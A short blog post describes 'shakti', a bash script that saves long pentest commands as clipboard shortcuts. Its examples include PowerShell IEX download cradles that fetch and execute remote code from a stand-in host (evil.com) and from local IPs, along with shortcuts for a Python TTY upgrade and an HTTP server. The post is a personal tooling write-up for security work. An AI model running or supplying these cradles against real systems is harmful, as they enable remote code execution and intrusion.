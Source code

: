 ```yaml
---
layout: post
title: Shakti - More than alias
categories: [bash, linux, kali]
---
```


## Introduction

Shakti is simple solution for typing long repetitive commands. How many times you have to type IEX(New-object Net.WebClient).DownloadString('http://evil.com/my_secret_shell') and at the end you did typo. Would not be better to quickly jump to another pane in your tmux session and type few commands and have exactly thing you need on your clipboard?


## Background

I tried to brush my bash scripting skill a little and I want to create some useful application for me. Also I tried use native linux application and. As db is simple file where I use awk command to pull information I need. 

## Usage

List command will print out all shortcut you created.


```
./shakti.sh list

 ▄▀▀▀▀▄  ▄▀▀▄ ▄▄   ▄▀▀█▄   ▄▀▀▄ █  ▄▀▀▀█▀▀▄  ▄▀▀█▀▄   
█ █   ▐ █  █   ▄▀ ▐ ▄▀ ▀▄ █  █ ▄▀ █    █  ▐ █   █  █  
   ▀▄   ▐  █▄▄▄█    █▄▄▄█ ▐  █▀▄  ▐   █     ▐   █  ▐  
▀▄   █     █   █   ▄▀   █   █   █    █          █     
 █▀▀▀     ▄▀  ▄▀  █   ▄▀  ▄▀   █   ▄▀        ▄▀▀▀▀▀▄  
 ▐       █   █    ▐   ▐   █    ▐  █         █       █ 
         ▐   ▐            ▐       ▐         ▐       ▐           
    Cosmic alias


Shortcut	|	Command
========================================================
list		-	List all commands
add [shotcut] [cmd]-	Add or modify existing shortcut
dell [shortcut]	-	Delete shorcut
info [shortcut]	-	Get Shortcut info details
tty		-	get python tty
http		-	Python server
iex		-	Powershell test
psds		-	Powershell IEX Download String
```

I already have some shortcut created so lets have a look into **psds** one with info option

```
./shakti.sh info psds

 ▄▀▀▀▀▄  ▄▀▀▄ ▄▄   ▄▀▀█▄   ▄▀▀▄ █  ▄▀▀▀█▀▀▄  ▄▀▀█▀▄   
█ █   ▐ █  █   ▄▀ ▐ ▄▀ ▀▄ █  █ ▄▀ █    █  ▐ █   █  █  
   ▀▄   ▐  █▄▄▄█    █▄▄▄█ ▐  █▀▄  ▐   █     ▐   █  ▐  
▀▄   █     █   █   ▄▀   █   █   █    █          █     
 █▀▀▀     ▄▀  ▄▀  █   ▄▀  ▄▀   █   ▄▀        ▄▀▀▀▀▀▄  
 ▐       █   █    ▐   ▐   █    ▐  █         █       █ 
         ▐   ▐            ▐       ▐         ▐       ▐           
    Cosmic alias


Shortcut :psds
Command: echo -n "IEX(New-Object Net.WebClient).DownloadString(\"$2\")"| xclip -selection clipboard;echo "Copied"

Description: Powershell IEX Download String
```

There is a quite command. Lets analyze it. It will print our IEX string where $2 will substitute for anything you input after **./shakti.sh psds** because we used **|** our string it will not be copied on terminal but into our clipboard. And them we see echo command to print info on terminal. So lets test it :) 

```
$ ./shakti.sh psds 'http://192.168.1.200/frienly_app'
Copied
```


![](/images/shakti/psds.png)

It did worked! Lets create shortcut on our own. Lets call it psdf and it will print IEX DownlaadFile command on screen.

```bash
$ ./shakti.sh add psdf 'echo "IEX(New-Object Net.WebClient).DownloadFile(\"$2\",\"$3\")"' 'Powershell Download Files'                                                                      
Shortcut psdf added
$ ./shakti.sh psdf 'http://127.0.0.1/evil' 'C:\windows\tmp\very_nice_app'
IEX(New-Object Net.WebClient).DownloadFile("http://127.0.0.1/evil","C:\windows\tmp\very_nice_app")
```

If command already exist in database it will get overwrite.
There is also option for deleting your shortcut with option del. 

## Code 

Code can by find on my [github page](https://github.com/spyx/shakti) Any comment or suggestion let me know by dm's or directly on github.

## Credit 

I would like to give huge credit for Gerhard Kremer for picking amazing name that keeps me working to finish this project as he said

```
"Shakti - the cosmic principle that the goddess Kali is a manifestation of." 
```


